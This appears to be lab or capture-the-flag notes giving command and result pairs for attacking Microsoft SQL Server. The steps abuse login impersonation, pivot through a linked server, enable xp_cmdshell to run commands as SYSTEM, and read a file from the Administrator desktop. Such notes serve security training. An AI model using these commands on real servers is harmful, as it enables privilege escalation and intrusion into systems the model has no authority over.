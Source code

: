 *Result:* Conect to RDP

---

*Command:* Check who can I impersonate
1. SELECT distinct b.name
2. FROM sys.server_permissions a
3. INNER JOIN sys.server_principals b
4. ON a.grantor_principal_id = b.principal_id
5. WHERE a.permission_name = 'IMPERSONATE'
6. GO

*Result:*  John

---

*Command:* Impersonate JOHN
1. EXECUTE AS LOGIN = 'john'
2. SELECT SYSTEM_USER
3. SELECT IS_SRVROLEMEMBER('sysadmin')
4. GO

*Result:* Now I am John

---

*Command:* Identify linked servers: SELECT srvname, isremote FROM sysservers 

*Result:* LOCAL.TEST.LINKED.SRV

---

*Command:* conected to linked server: EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]

*Result:* testadmin

---

*Command:* Enable xp_cmdshell
1. EXECUTE("EXECUTE sp_configure 'show advanced options', 1") AT [LOCAL.TEST.LINKED.SRV]
2. EXECUTE("RECONFIGURE") AT [LOCAL.TEST.LINKED.SRV]
3. EXECUTE("EXECUTE sp_configure 'xp_cmdshell', 1") AT [LOCAL.TEST.LINKED.SRV]
4. EXECUTE("xp_cmdshell 'whoami'") AT [LOCAL.TEST.LINKED.SRV]

*Result:* nt authority\system

---

*Command:* Read admin flag
1. EXECUTE("xp_cmdshell 'dir C:\Users\Administrator\Desktop'") AT [LOCAL.TEST.LINKED.SRV]
2. EXECUTE("xp_cmdshell 'type C:\Users\Administrator\Desktop\flag.txt'") AT [LOCAL.TEST.LINKED.SRV]

*Result:* Flag

## Footprinting
### Assessment 1
*Command:* DNS zone transfer
